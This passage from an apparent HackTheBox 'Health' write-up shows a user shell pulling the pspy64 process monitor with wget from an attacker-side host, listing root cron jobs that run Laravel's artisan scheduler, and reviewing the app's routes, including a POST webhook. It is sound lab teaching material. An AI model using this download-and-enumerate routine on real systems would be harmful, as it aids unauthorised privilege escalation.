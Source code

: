 ```

susanne@health:/dev/shm$ wget 10.10.14.6/pspy64
--2023-01-06 22:49:17--  http://10.10.14.6/pspy64
Connecting to 10.10.14.6:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                100%[=========================>]   2.94M  2.21MB/s    in 1.3s    

2023-01-06 22:49:18 (2.21 MB/s) - ‘pspy64’ saved [3078592/3078592]

```

I’ll make it executable, and run it. After showing the running processes, I’ll look for processes starting around the new minute. There are several running every minute:

```

2023/01/06 22:51:01 CMD: UID=0    PID=4920   | /bin/bash -c sleep 5 && /root/meta/clean.sh 
2023/01/06 22:51:01 CMD: UID=0    PID=4919   | /bin/bash -c cd /var/www/html && php artisan schedule:run >> /dev/null 2>&1 
2023/01/06 22:51:01 CMD: UID=0    PID=4918   | /usr/sbin/CRON -f 
2023/01/06 22:51:01 CMD: UID=0    PID=4917   | /usr/sbin/CRON -f 
2023/01/06 22:51:01 CMD: UID=0    PID=4921   | sleep 5 
2023/01/06 22:51:01 CMD: UID=0    PID=4922   | /bin/bash -c cd /var/www/html && php artisan schedule:run >> /dev/null 2>&1 
2023/01/06 22:51:01 CMD: UID=0    PID=4925   | grep columns 
2023/01/06 22:51:01 CMD: UID=0    PID=4923   | sh -c stty -a | grep columns 
2023/01/06 22:51:01 CMD: UID=0    PID=4926   | php artisan schedule:run 
2023/01/06 22:51:01 CMD: UID=0    PID=4928   | grep columns 
2023/01/06 22:51:06 CMD: UID=0    PID=4929   | mysql laravel --execute TRUNCATE tasks

```

`artisan` is a utility used to interact with Laravel applications. It seems like root is running these `php artisan schedule:run` tasks.

### Web Source Review

#### Handling POST Requests

I did a more complete overview of Laravel apps in the [Beyond Root for Ransom](/2022/03/15/htb-ransom.html#beyond-root), which might be worth reviewing here.

`php artisan route:list` will show the various routes for this application:

```

susanne@health:/var/www/html$ php artisan route:list
+--------+----------+---------------------+---------+------------------------------------------------------------+------------------------------------------+
| Domain | Method   | URI                 | Name    | Action                                                     | Middleware                               |
+--------+----------+---------------------+---------+------------------------------------------------------------+------------------------------------------+
|        | GET|HEAD | /                   |         | Closure                                                    | web                                      |
|        | GET|HEAD | api/user            |         | Closure                                                    | api                                      |
|        |          |                     |         |                                                            | App\Http\Middleware\Authenticate:sanctum |
|        | GET|HEAD | sanctum/csrf-cookie |         | Laravel\Sanctum\Http\Controllers\CsrfCookieController@show | web                                      |
|        | POST     | webhook             | webhook | App\Http\Controllers\TaskController@create                 | web                                      |
```